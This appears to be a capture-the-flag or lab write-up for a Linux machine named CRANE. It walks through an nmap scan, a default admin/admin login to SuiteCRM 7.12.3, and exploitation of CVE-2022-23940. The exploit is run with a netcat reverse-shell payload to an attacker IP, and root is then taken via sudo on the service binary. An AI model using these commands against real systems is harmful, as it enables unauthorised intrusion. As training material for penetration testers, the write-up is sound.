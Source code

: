 # CRANE

OS Linux

# Nmap


```sh
PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 3780014a438630c979e7fb7f3ba41edd (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBCcfKYKMXuTWeyLKlFNHgmebcXbFAjSpbr39R8GFHYRmc/mZXKNgEoa5gkFAVr8kVVul4X6//DcnRuHtrCpHcnTIZLT9g1DPB09VsLzsjT0TpmqkcDYtZazo1mjnBZdaM+AxoDMghZd8AXiNrCl7jCN+vRjUQc8T1wD4PoC02XjeCAI8Yha++Mv9ZrSPZ+/gBvgZPL3pdQhVGUSUHOmXod4xcdm5ReNiZRNZklOhhscbGfSCqQIdJogegZfMrlueeG3EY7Kkf5CxAUDH/9ir2dEDDifIpqKV8W7ncKEpsZiqgDh36OdMX4LPJ0NmZiT/g8CvINx7k4HWj3ksT+5C7
|   256 b618a1e198fb6cc687554510c6d445b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEK0B9iLJQztyEpGiNffHgQuGcxZRO/BOi+r0j/P8Hkz02pIWW2hFrArbzehUNQ46ZmFwMhxxmrIOLBpUt9ZGBw=
|   256 ab8f2de8a204e7b765d3fe5e931e0367 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOAlO2qlRhyMwzzf3xAK4wOGz1UD5t9+QQO5J3QjTkaZ
80/tcp    open  http    syn-ack Apache httpd 2.4.38 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.38 (Debian)
|_http-favicon: Unknown favicon MD5: ED9A8C7810E8C9FB7035B6C3147C9A3A
| http-title: SuiteCRM
|_Requested resource was index.php?action=Login&module=Users
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/
3306/tcp  open  mysql   syn-ack MySQL (unauthorized)
33060/tcp open  mysqlx? syn-ack
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.93%I=7%D=9/27%Time=651419EA%P=x86_64-pc-linux-gnu%r(N
....
```

So we have a couple of interesting ports. Let's have a look at the webpage on port 80:


![](80.png)

We can see that it's running software suitecrm

> SuiteCRM is an open-source Customer Relationship Management application for servers written in PHP.

We can log in with trhe default credentials admin/admin.

If we browse to the about page the version number opf the software becomes clear. Version 7.12.3 

![](about.png)

This version has an authenticated RCE vulnerabilty (CVE-2022-23940). An exploit is available [here](https://github.com/manuelz120/CVE-2022-23940)

After trying several payloads I found out that the machine would not connect to every port, but port 80 seemed to be working.

```sh
python3 exploit.py -h http://192.168.175.146 -u admin -p admin --payload "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.45.228 80 >/tmp/f"
```

Now we can catch the shell as user www-data

![](shell.png)

# Privilege Escalation
When enumerating with linpeas we see that the user www-data can run `/usr/sbin/service` as root without a password.

![](service.png)

The way to exploit this can be found at [gtfobins](https://gtfobins.github.io/gtfobins/service/#sudo)

![](proof.png)

